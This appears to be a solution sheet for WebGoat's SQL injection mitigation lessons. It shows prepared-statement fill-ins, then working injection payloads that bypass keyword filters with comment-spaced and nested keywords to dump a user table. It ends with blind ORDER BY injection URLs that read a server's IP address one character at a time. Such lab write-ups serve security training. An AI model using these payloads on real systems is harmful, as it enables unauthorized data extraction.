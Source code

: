 # Mitigation

# task5

```
1. getConnection
2. PreparedStatement ps
3. prepareStatement
4. ?
5. ?
6. ps.setString(1,"user")
7. ps.setString(2,"mail")

```

# task6

ps.execute(); could be change to ps.executeUpdate()

```
try {
     Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);
     PreparedStatement ps = conn.prepareStatement("SELECT * FROM users WHERE name = ?");
     ps.setString(1, "Admin");
     ps.execute();
} catch (Exception e) {
     System.out.println("Oops. Something went wrong!");
}

```

# task 9

solution

```
a';/**/select/**/*/**/from/**/user_system_data;--
```

colution with union

```
a'/**/union/**/select/**/user_system_data.*,'1','1',1/**/from/**/user_system_data;--
```

# task 10

Removal od nesting strings

```
query : sth';/**/seselectlect/**/*/**/frfromom/**/user_system_data;--

```

# task 12

if result from query is sorted the assumption is true

```
possitive check: http://localhost:8080/WebGoat/SqlInjectionMitigations/servers?column=(CASE+WHEN+(SELECT+substring(ip,1,1)+FROM+servers+WHERE+hostname=%27webgoat-prd%27)+=+%271%27+THEN+id+ELSE+status+END)
possitive check: http://localhost:8080/WebGoat/SqlInjectionMitigations/servers?column=(CASE+WHEN+(SELECT+substring(ip,1,2)+FROM+servers+WHERE+hostname=%27webgoat-prd%27)+=+%2710%27+THEN+id+ELSE+status+END)
possitive check: http://localhost:8080/WebGoat/SqlInjectionMitigations/servers?column=(CASE+WHEN+(SELECT+substring(ip,1,3)+FROM+servers+WHERE+hostname=%27webgoat-prd%27)+=+%27104%27+THEN+id+ELSE+status+END)

```

```
negative check: possitive check: http://localhost:8080/WebGoat/SqlInjectionMitigations/servers?column=(CASE+WHEN+(SELECT+substring(ip,1,3)+FROM+servers+WHERE+hostname=%27webgoat-prd%27)+=+%27134%27+THEN+id+ELSE+status+END)
```

our query sent to order injection

```
CASE WHEN (
 SELECT
   substring(ip, 1, 2)
 FROM
   servers
 WHERE
   hostname = 'webgoat-prd'
) = '10' THEN id ELSE status END
```
